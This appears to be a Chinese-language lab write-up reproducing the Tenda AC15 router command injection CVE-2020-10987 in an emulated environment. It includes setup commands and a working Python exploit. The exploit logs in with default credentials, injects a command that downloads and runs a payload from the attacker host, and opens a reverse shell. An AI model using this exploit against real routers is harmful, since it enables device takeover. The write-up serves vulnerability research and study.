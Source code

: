 # Tenda AC15 命令注入漏洞（CVE-2020-10987）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf;'
cmd += b'chmod 777 /msf;'
cmd += b'/msf'

assert(len(cmd) < 255)

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setUsbUnload/?deviceName=;%20" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    s.post(url=url, data=data)
    s.post(url=payload, data=data)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

## 参考链接

- <https://www.nosec.org/home/detail/4634.html>
